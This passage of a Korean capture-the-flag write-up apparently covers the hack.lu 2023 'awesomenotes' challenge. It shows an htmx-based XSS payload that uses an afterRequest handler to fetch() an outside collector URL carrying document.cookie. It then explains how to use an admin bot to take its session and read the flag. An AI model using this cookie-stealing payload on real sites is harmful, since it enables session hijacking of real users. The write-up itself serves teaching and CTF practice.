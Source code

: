 https://htmx.org/events/
```
Event - htmx:afterRequest
This event is triggered after an AJAX request has finished either in the case of a successful request (although one that may have returned a remote error code such as a 404) or in a network error situation. This event can be paired with htmx:beforeRequest to wrap behavior around a request cycle.
```
대회가 끝나고, write-up을 보니 `htmx:afterRequest`를 사용한 풀이가 있었다. `htmx:afterRequest`는 AJAX 요청 이후 Request를 한 번 더 전송하는 속성으로 Payload는 아래와 같았다.     
      
```html
<div hx-get="/api/note/01fe5e3e71de0713da71533027bf0e267e6661f8fba78e04711521a28577285c" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest: fetch('https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie)"></div>
```

거의 다 왔는데 `hx-get` 요청 이후 `htmx:afterRequest`가 수행되며 쿠키 값을 전달한다. 즉, 위 내용을 Note의 입력 값으로 전달하고 Report를 통해 adminbot이 읽게 하면 아래와 같이 세션을 탈취할 수 있게 된다. 
     
<img src="/assets/images/ctf/2023/hack.lu/awesomenotes-1/2.PNG" width="700px">     

얻은 세션 값을 쿠키에 넣어주고 `/note/flag`에 접근해주면 된다. 
           
<img src="/assets/images/ctf/2023/hack.lu/awesomenotes-1/3.PNG" width="700px">        
       
`/note/flag`에 접근해주면 FLAG 값이 잘 보이는 것을 확인할 수 있다.    
      